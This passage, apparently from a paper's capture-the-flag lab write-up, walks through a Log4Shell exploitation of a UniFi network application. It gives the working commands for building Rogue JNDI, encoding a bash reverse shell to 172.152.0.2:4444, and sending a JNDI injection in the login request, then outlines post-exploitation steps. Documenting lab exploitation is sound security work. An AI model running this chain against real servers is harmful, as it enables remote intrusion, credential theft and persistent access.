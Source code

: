 \begin{lstlisting}[language=bash,caption=Cloning Rogue JNDI GitHub Repository.,numbers=none,label={lst:unifi_clone_rogue_jndi}]
# Clone Rogue JNDI GitHub repository and build project
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package

# Create the Base64 payload 
echo 'bash -c bash -i >&/dev/tcp/172.152.0.2/4444 0>&1' | base64

# Running the malicious LDAP and HTTP Server with the Base64 malicious payload. The hostname flag denotes the target HTTP server.
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTcyLjE1Mi4wLjIvNDQ0NCAwP
iYxCg==}|{base64,-d}|{bash,-i}" --hostname "172.152.0.2"

# Running Exploit
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.152.0.2:1389/o=tomcat}","strict":true}'
\end{lstlisting}

As a result, we obtain a reverse shell in our initial \texttt{netcat} listener. We now have access to the target server under the \textit{unifi} user. Running a simple \texttt{ls -la} command, we can see there is a weird file with the name \texttt{...} (3 dots). If we open it, we will find the challenge flag \texttt{flag\{l3ts\_un1f1\_every0ne\_l0g4j\}}.

\subsubsection{Post Exploitation} \label{sec:validation_log4j_post_exploitation}

Some lateral movement can be performed after getting the reverse shell on the victim. For instance, we can try to crack the administrative credentials for the UniFi network application stored in the MongoDB instance mentioned earlier in the Docker container construction using \texttt{hashcat}. Or, we can add a new administrative user, for example. In an actual world setup, this would allow access to a whole new range of devices, possibly with vulnerabilities that would easily allow a way in. Persistence tasks could also be considered to enable consistent access to the victim's machine.

